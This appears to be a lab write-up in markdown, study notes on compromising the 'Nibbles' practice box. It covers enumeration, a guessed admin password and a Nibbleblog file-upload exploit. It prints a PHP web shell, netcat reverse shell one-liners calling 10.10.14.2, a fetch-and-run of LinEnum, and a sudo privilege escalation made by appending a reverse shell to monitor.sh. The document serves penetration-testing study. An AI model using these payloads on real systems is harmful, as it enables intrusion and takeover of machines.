

# Example Box

We have an ip an no other information. We'll start with a simple host exploration.

## Nmap scan

Note: we can use `nmap -v -oG -` to find what ports with me scanned by default.

- `-v` for verbose
- `-oG` for greppable output
- and `-oG -` to print out directly in the terminal

#### the scan command:
`nmap -sV --open -oA nibbles_initial_scan 10.129.42.190`

- `-sV` for service enumeration (try to find `Apache 2.4.41` or `Nginx 1.18.0` eg)
- `--open` display only open ports
- `-oA file_name`: Output in all formats:
  - `output_file.nmap` -> regulat nmap output
  - `output_file.gnmap` -> Grepable format (scripting)
  - `output_file.xml` -> XML format (eg for Metasploit)
  
we can check again with the added option `-p-` for any service running on non-standard ports (all 65,000+ ports scanned)

## Banner grabbing

in our case we found two services:
```bash
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd <REDACTED> ((Ubuntu))
```

we can do banner grabbing to get a little more information on these services and vlidate what `nmap` told us:

```bash
$> nc -nv 10.129.42.190 22

(UNKNOWN) [10.129.42.190] 22 (ssh) open
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8
```

- `-n` to **not** performe DNS lookup
- `-v` for verbose
- notice `22` for the target port after the ip

and again:
```bash
$> nc -nv 10.129.42.190 80

(UNKNOWN) [10.129.42.190] 80 (http) open
```

## In depth nmap scan

Assuming now we didn't find any other ports we want to look at we can run the command:

`nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190`

This time we're using `-sC` to use the [nmap default scripts](https://nmap.org/nsedoc/categories/default.html). These tests are heavy and intrusivem they should be used with caution.

In this case this script didn't give us anything we can use:
```bash
22/tcp open  ssh
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html).
```

We're going to move on to use the [http-enum script](https://nmap.org/nsedoc/scripts/http-enum.html)

## Web Footprinting

we can use `whatweb` to know more about the service, in our examples case:
```bash
$> whatweb 10.129.42.190

http://10.129.42.190 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190]
```

Not much there.
we can `curl` our ip or open it in a browser in our case we get:

```html
curl http://10.129.42.190

<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

we can go to the directory `/nibbleblog/` with `curl`:

```bash
$> whatweb http://10.129.42.190/nibbleblog

http://10.129.42.190/nibbleblog [301 Moved Permanently] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190], RedirectLocation[http://10.129.42.190/nibbleblog/], Title[301 Moved Permanently]
http://10.129.42.190/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.42.190], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]
```

We can see we're redirected and on the second page use `HTML5`, `jQuery`, and `PHP`, and that the site is running `Nibbleblog` (a free blogging engine built using PHP).

The broswer of this page doesn't teach us much.

We can loop up `nibbleblog exploit` on google though and find there is a [Nibbleblog File upload Vulnerbility](https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/). With `Metasploit` we can see the exploit is vulnerable in version `4.0.3`. We don't know the exact version of Nibbleblog but it is a good bet that it is vulnerable to this.
if we look at the source code for the `Metasploit` module we can see it uses user-supplied credentials to authenticate the admin portal at `/admin.php`.

`metasploit` mini-guide, see `Public Exploits.md` for more details:
```bash
$> msfconsole
...
msf6 > search exploit application_or_program_name
msf6 > use number_or_path
msf6 exploit(/exploit/path) > show options
# set any "required" options with->
msf6 exploit(/exploit/path) > set option_name value
...
msf6 exploit(/exploit/path) > check # check if server is actually vulnerable
msf6 exploit(/exploit/path) > run # or exploit
```

We can also use gobuster to be thorough and check for other pages/directories, and in our case we're looking for `/admin.php`, eg:
`gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt`

- `dir` tells gobuster to run in **directory enumeration mode**
- `-u http://<ip>/path` specify target url
- `--worldlist /.../Web-Content/common.txt` given wordlist, there are many different ones, explore the different path or run `locate common.txt` to seem some possibilities depending on the usage.

in our example we find the routes:
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/admin.php (Status: 200)
/content (Status: 301)
/index.php (Status: 200)
/languages (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/themes (Status: 301)
```
We can get more information about `versions` by checking the `README` page. In our case we are indeed in the `4.0.3` vulnerable version.

Now on the `/admin.php` page we can check for a few different common password like `admin:admin` or `admin:password` but we notice we are quickly blocked out after too many tries, and the reset password function only return an e-mail error.

Back to our directory brute-forcing:
- `200` status code shows us the accessible pages.
- `403` status code indicates forbidden.
- `301` is permanent redirect.

Let's walk around:


In `nibbleblog/content` we find `public`, `private`, and `tmp`, and after digging we find `users.xml`:

```xml
$> curl -s http://10.129.42.190/nibbleblog/content/private/users.xml | xmllint  --format -

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<users>
  <user username="admin">
    <id type="integer">0</id>
    <session_fail_count type="integer">2</session_fail_count>
    <session_date type="integer">1608182184</session_date>
  </user>
  <blacklist type="string" ip="10.10.10.1">
    <date type="integer">1512964659</date>
    <fail_count type="integer">1</fail_count>
  </blacklist>
  <blacklist type="string" ip="10.10.14.2">
    <date type="integer">1608182171</date>
    <fail_count type="integer">5</fail_count>
  </blacklist>
</users>
```

- `curl -s` for silent mode, so no progress bar or messages
- `xmllint` xml parsing tool
- `--format` reformat (or pretty-print) the XML
- `-` read from stdin

So now we have a valid username (`username="admin"`) but no password. The brute-force protection dimisses tools like `Hydra`.

We also find a file at `/content/private/config.xml` but it's mostly home page information.

We can maybe guess the password, eg the name of the challenge and website name could be a clue (variable of `nibble`) or we could use [CeWL](https://github.com/digininja/CeWL) to generate a wordlist based on the website. In our case it is some variation of `nibbles`.

Recap:
1. simple `nmap` to show two open ports
2. discovered instance of `Nibbleblog`
3. found `/admin.php` was accessible
4. Discovered directory listting is available
5. Confirmed `admin` was the valid username
6. Found of the hard way there is brute-force protection (Ip blacklisting)
7. Uncovered clues that led us to a valid admin password of nibbles (educated guess)

**Make recordable and clear steps**


## Now that we're admin

in this example we find these following pages:
- `Publish`: making a new post, video post, quote post, or new page. It could be interesting.
- `Comments`: shows no published comments
- `Manage`: Allows us to manage posts, pages, and categories. We can edit and delete categories, not overly interesting.
- `Settings`: Scrolling to the bottom confirms that the vulnerable version 4.0.3 is in use. Several settings are available, but none seem valuable to us.
- `Themes`: This Allows us to install a new theme from a pre-selected list.
- `Plugins`: Allows us to configure, install, or uninstall plugins. The My image plugin allows us to upload an image file. Could this be abused to upload PHP code potentially?

When we try to upload a file countaining `<?php system('id'); ?>` we have a bunch of html errors.

Now we want to find where out file was uploaded, we can confirm it with:
```bash
$> curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

So we have remote code execution on the server ! (executed the command `id`)

And apache is running us as user `nibbler`. Now let's use this to have a reverse shell.

Reverse Shell cheat sheets can be found at [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) or [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

Here's our new file:
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

and we start a `netcat` listener in out terminal:
```bash
$> nc -lvnp 9443

listening on [any] 9443 ...
```

`curl` the image page again or browse to it in `Firefox` to execute the reverse shell.

optional, upgrade your reverse shell:
`python -c 'import pty; pty.spawn("/bin/bash")'`

now we brown so `/home/nibbler` and find:
```bash
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
```

now we can try to unzip the `personal.zip` file. We find a small script.

Now we can try [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform a automated privilege escalation checks.

Now we want to give this to the server, so we're going to run a small python server:
1. `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
2. `sudo python3 -m http.server 8080`
3. on target: `wget http://<your ip>:8080/LinEnum.sh`
4. on target: `chmod +x LinEnum.sh`
5. on target: `./LinEnum.sh`

Each line with `[+]` give a possible privilege escalation technique.

In our case we can run sudo without password, and can run the file monitor.sh with root privileges. We have full controle over that file so if we append a reverse shell oneline to the end of it and execute with sudo we should get a reverse shell back as the root user.

Now let's edit monitor.sh:
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh`
- `echo "..."` bash reverse shell script
- `tee` to output to terminal and to the file
- `-a` **append** to file rather than overwrite

**it is crutial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption.**

and finally we execute the script with sudo:
1. `sudo /home/nibbler/personal/stuff/monitor.sh 
2. and run `nc -lvnp 8443` on our machine
3. profit !

## Metasploit method:

1. `msf6 > search nibbleblog`
2. `msf6 > use 0`
3. `msf6 exploit(multi/http/nibbleblog_file_upload) > show options`
4. set all the `required` options:
   1. `set username admin`
   2. `set password nibbles`
   3. `set targeturi nibbleblog`
   4. `set payload generic/shell_reverse_tcp`
   5. check with `show options`
5. `exploit` to run shell
6. ...
7. profit !